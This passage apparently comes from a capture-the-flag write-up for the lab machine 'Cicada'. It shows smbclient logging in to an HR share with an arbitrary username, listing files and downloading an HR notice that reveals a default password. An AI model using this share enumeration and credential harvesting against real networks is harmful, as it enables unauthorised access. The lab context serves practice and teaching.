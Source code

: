 I'll use `smbclient` to access the share.
```bash
#connecting to the share
smbclient //cicada.htb/HR -U 'randomuser'
Password for [WORKGROUP\randomuser]:
Try "help" to get a list of possible commands.
smb: \>

#listing files
smb: \> ls
  .                                   D        0  Thu Mar 14 07:29:09 2024
  ..                                  D        0  Thu Mar 14 07:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 12:31:48 2024

		4168447 blocks of size 4096. 438989 blocks available

#downloading the file the my attacker machine
smb: \> get "Notice from HR.txt" 
getting file \Notice from HR.txt of size 1266 as Notice from HR.txt (33.4 KiloBytes/sec) (average 33.4 KiloBytes/sec)
smb: \>
```

In this file we find a password.
```text
Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```
